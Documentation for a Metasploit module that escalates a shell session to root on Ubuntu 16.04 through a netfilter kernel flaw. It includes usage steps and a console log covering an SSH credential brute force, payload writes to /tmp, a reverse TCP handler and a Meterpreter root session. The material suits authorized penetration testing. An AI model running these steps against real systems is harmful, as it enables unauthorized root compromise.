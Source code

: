 ## Creating A Testing Environment

There are a few requirements for this module to work:

  1. ip_tables.ko has to be loaded (root running iptables -L will do such)
  2. libc6-dev-i386 needs to be installed to compile
  3. shem and sham can not be installed/running

This module has been tested against:

  1. Ubuntu 16.04.1 (sudo apt-get install linux-image-4.4.0-21-generic)

This module *should* work against

  1. Ubuntu 16.04

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ubuntu_netfilter`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### Ubuntu 16.04.1 (with linux-image-4.4.0-21-generic)

Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    msf auxiliary(ssh_login) > set username nagios
    username => nagios
    msf auxiliary(ssh_login) > set password nagios
    password => nagios
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'nagios:nagios' 'uid=1000(nagios) gid=1000(nagios) groups=1000(nagios),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1001(nagcmd) Linux nagios 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (127.0.0.1:36085 -> 127.0.0.1:22) at 2016-09-16 01:15:34 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Escalate

    msf auxiliary(ssh_login) > use exploit/linux/local/ubuntu_netfilter
    msf exploit(ubuntu_netfilter) > set session 1
    session => 1
    msf exploit(ubuntu_netfilter) > set verbose true
    verbose => true
    msf exploit(ubuntu_netfilter) > exploit
    
    [*] Started reverse TCP handler on 172.20.14.188:4444 
    [*] Checking if libc6-dev-i386 is installed
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables.ko is loaded
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing desc executable to /tmp/452xNomE.c
    [*] Max line length is 65537
    [*] Writing 3484 bytes in 1 chunks of 12068 bytes (octal-encoded), using printf
    [*] Executing /tmp/452xNomE, may take around 35s to finish.  Watching for /tmp/rrOA1xsB to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/HbFVMTZM
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/eRFqvuyG.c
    [*] Max line length is 65537
    [*] Writing 1418 bytes in 1 chunks of 4975 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 172.20.14.188
    [*] Meterpreter session 2 opened (172.20.14.188:4444 -> 172.20.14.188:45114) at 2016-09-16 01:16:52 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0
